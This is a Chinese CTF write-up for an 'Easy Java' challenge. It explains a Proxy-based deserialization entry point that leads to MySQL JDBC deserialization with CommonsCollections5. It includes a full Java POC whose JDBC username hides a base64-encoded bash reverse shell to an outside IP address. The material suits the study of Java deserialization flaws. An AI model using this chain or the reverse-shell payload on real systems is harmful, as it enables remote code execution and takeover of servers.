








Easy Java(三血)
考点：
1.序列化入口构造
2.Mysql JDBC反序列化
拿到源码直接看控制器代码，在hello方法中对传入的cookie进行反序列化

反序列化后返回实例化对象info,且该类最后会执行getAllinfo方法.如果直接在Info接口下找getAllInfo方法执行，发现并没有进一步的危险操作.所以把目光放到InfoInvocationHandler类中该方法实现Serializabale接口可以被序列化.在实现的方法中带有invoke方法.
有复现过cc链相关知识可以知道要执行invoke方法需要被Proxy代理类封装，被封装后在执行方法后优先执行invoke方法.而执行的条件就是在上一步分析中实例化后的对象执行info.getAllinfo()
Ps:不能通过method.invoke反射执行危险函数，这里对this.info做了类型限制，找不到该Info类型下危险调用

所以可以构造如下exp,将DataBaseInfo实例，封装进Proxy类中，有意思的是这里Proxy类可以转化为Info类型，这样就可以满足反序列化需要转换为Info类型，就不会爆cast Exception异常.

构造完序列化入口，发现在执行InfoInvocationHandler.invoke方法中，调用了this.info.checkAllInfo(),翻看代码，在DatabaseInfo.checkAllInfo方法中执行了connect方法，而该方法的构造能够反序列化可控jdbc链接，可以导致JDBC反序列化.

关于JDBC反序列化原理，精心构造的jdbc链接，连接恶意服务器后能够发送恶意利用链字节码，导致客户端应用执行反序列化操作.
具体参考：https://github.com/fnmsd/MySQL_Fake_Server
JDBC反序列化有两个利用
1.任意文件读取,这里不知道服务器flag文件存放，读不到,在读取时候需要加个配置条件allowLoadLocalInfile=true

2.反序列化，根据web应用依赖来，翻看/Users/osword/.m2/repository/org/nibblesec/serialkiller/0.4/serialkiller-0.4.pom发现存在cc3.2.1依赖。可以直接利用CommonsCollections5之间打（PS:因为cc5 利用BadAttributeValueExpException符合jdk8环境,具体可以自己跟一下)

POC
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
| package gdufs.challenge.web;
import gdufs.challenge.web.invocation.InfoInvocationHandler;
import gdufs.challenge.web.model.DatabaseInfo;
import gdufs.challenge.web.model.Info;
import gdufs.challenge.web.model.UserInfo;
import org.apache.commons.collections.Factory;
import org.apache.commons.collections.map.LazyMap;
import java.io.ByteArrayOutputStream;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;
public class exp {
public static void main(String[] args) throws Exception {
DatabaseInfo databaseInfo = new DatabaseInfo();
databaseInfo.setHost("120.77.180.97");
databaseInfo.setPort("8876");
databaseInfo.setUsername("yso_CommonsCollections5_bash -c {echo,L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEyMC43Ny4xODAuOTcvMTAyNCAwPiYx}|{base64,-d}|{bash,-i}");
databaseInfo.setPassword("123&autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor");
ClassLoader classLoader = databaseInfo.getClass().getClassLoader();
Class[] interfaces = databaseInfo.getClass().getInterfaces();
InfoInvocationHandler infoInvocationHandler = new InfoInvocationHandler(databaseInfo);
Info proxy = (Info)Proxy.newProxyInstance(classLoader,interfaces,infoInvocationHandler);
ByteArrayOutputStream baos = new ByteArrayOutputStream();
ObjectOutputStream objectOutputStream = new ObjectOutputStream(baos);
objectOutputStream.writeObject(proxy);
objectOutputStream.flush();
objectOutputStream.close();
System.out.printf(new String(Base64.getEncoder().encode(baos.toByteArray())));
}
}
|
vps起Mysql_fake_server服务，需要在当前提前备好ysoserial-0.0.6-SNAPSHOT-all.jar,exp生成的base64直接打

